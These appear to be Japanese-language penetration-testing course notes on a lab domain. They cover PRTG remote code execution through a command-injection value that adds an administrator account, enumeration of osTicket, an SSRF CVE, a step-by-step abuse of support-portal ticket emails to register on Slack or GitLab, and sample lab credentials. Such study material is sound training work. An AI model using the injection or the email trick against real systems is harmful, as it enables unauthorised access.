 RCE
![](https://i.imgur.com/9aQY2CC.png)

![](https://i.imgur.com/Jo2QxAW.png)

`test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
![](https://i.imgur.com/PnSuAv3.png)

列をクリックしないと、テストボタンが押せない
![](https://i.imgur.com/6weWFnI.png)

# OsTicket
- オープンソースのサポートチケットシステム
- Jira、OTRS、Request Tracker、Spiceworks などのシステムと比較されることがある
- メール、電話、Web フォームからのユーザーの問い合わせを統合し、Web インターフェースで一元管理できる仕組みを提供する
- PHP で記述され、MySQL をバックエンドとして使用しており、Windows または Linux にインストール可能
- 多くは企業、学校、大学、地方自治体などが osTicket を使用しているようです。TVドラマ「Mr. Robot」にも短く登場したことがある
- **サポートチケットシステムの世界**に触れ、「評価対象として見落とされがちだが、実は重要である」ことを理解すること
- osTicket はよくメンテナンスされている Web アプリケーションであり、数十年分の CVE を見ても深刻な脆弱性や実用的なエクスプロイトはほとんどない

## 発見 / フットプリンティング /  列挙
- 多くの osTicket インストールでは、ページのフッターに「powered by osTicket」や「Support Ticket System」などの文字が表示される
- Nmap スキャンでは、Apache や IIS といった Web サーバの情報が得られるだけで、アプリケーションの特定にはあまり役に立たない

## 攻撃
- 普通にいろんな脆弱性ある
- その中でも、osTicket バージョン1.14.1には CVE-2020-24881 という SSRF（Server Side Request Forgery） 脆弱性が存在する
	- これが悪用されると、社内リソースへのアクセス や 内部ポートスキャン などに利用される可能性がある

### サポートベクトルを使った別の攻撃

 - Webアプリケーション自体の脆弱性を突くのではなく、サポートポータルから会社のメールアドレスを取得して利用するというアプローチがある
- このメールアドレスは、Slack や GitLab など、外部サービスでのアカウント登録に活用できる可能性がある
例
- Slack や GitLab などのサービスが外部公開されており、「会社のメールアドレスが必要な招待制」であるとする
- 多くの企業では「`support@inlanefreight.local`」のようなサポート用メールアドレスを持っている
- こういったメールに送った内容は、ZendeskやosTicketなどの**サポートポータル（外部からも見える）**で公開されていることがある
- チケットが新規作成されると、osTicket のようなツールは一時的な内部メールアドレス（例：`940288@inlanefreight.local`）を発行し、対応通知などがそのアドレスに届く

攻撃の流れ
	1.	対象企業のサポートポータルを見つける
	2.	チケットを新規作成する（問い合わせ内容は適当でもよい）
	3.	チケット作成後、内部メールアドレス（例：940288@inlanefreight.local）が発行される
	4.	そのメールアドレスを使って、外部サービス（GitLabやSlackなど）でアカウント作成を試みる
	5.	サインアップ時に送られる確認メールがサポートポータル上に表示される
	6.	そのメール内の確認リンクをクリックすることでアカウントが有効化され、内部情報へのアクセスなどが可能になる可能性がある

### 機密データの漏洩
- 外部ペネトレーションテスト中に、OSINT（オープンソース情報収集）と情報収集ツール「Dehashed」を使って、企業のユーザー認証情報（実在するかのような形式）を発見したと仮定する
- メール: `julie.clayton@inlanefreight.local` / パスワード: `JulieC8765!`
- メール: `kevin@inlanefreight.local` / パスワード: `Fish1ng_s3ason!`

